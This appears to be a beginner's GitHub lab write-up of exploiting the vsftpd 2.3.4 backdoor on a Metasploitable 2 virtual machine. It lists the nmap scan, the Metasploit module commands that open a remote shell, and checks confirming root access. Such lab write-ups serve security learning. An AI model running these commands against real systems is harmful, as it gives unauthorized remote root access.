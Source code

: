 # Day 2 of  writing something I have learned:
# Day 2 – Exploit Report: vsftpd 2.3.4 Backdoor

## 🎯 Target Information
- **Target IP**: `192.168.56.101`
- **System**: Metasploitable 2
- **Vulnerable Service**: FTP (vsftpd 2.3.4)
- **Port**: 21/tcp

## 🔍 Scanning Results (Nmap)
nmap -sV -sC -O -oN scan.txt 192.168.56.101
![image](https://github.com/user-attachments/assets/62de0928-4d86-497c-9f76-3d1cadc55080)
```
I conducted the nmap scan on the given IP so I could know the given vulnerability present 
```
# Result:
![image](https://github.com/user-attachments/assets/9f995d14-400d-4f93-bd1c-167787794a72)
21/tcp open  ftp     vsftpd 2.3.4
```

You can see the result there is open port which is 21 and has vstfpd 2.3.4 as version which has exploitation 
```

##💣 Exploitation (Metasploit)
![image](https://github.com/user-attachments/assets/c787d4ae-13cf-4db1-85fb-4ae0b88b5677)
![image](https://github.com/user-attachments/assets/d9aa1f10-4700-4a71-8038-de4aed8aa8fd)
![image](https://github.com/user-attachments/assets/520ab200-1ae4-49fb-ac6e-7345660eede4)
![image](https://github.com/user-attachments/assets/81415b7d-1f72-4a0b-9fd7-06aac8e526d3)
```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
exploit

This above are the commands I ran without the use of payload so that I can access the  targets device because of its vulnerability.
```

🖥️ Shell Access
![image](https://github.com/user-attachments/assets/af1a541b-2898-44b4-9ab4-a809f4279509)

```
sessions -i 1
whoami
uname -a

This to know if we have the control over the device of targets IP
````

 Result
Successfully gained command shell as root
Confirmed RCE via the FTP backdoor.
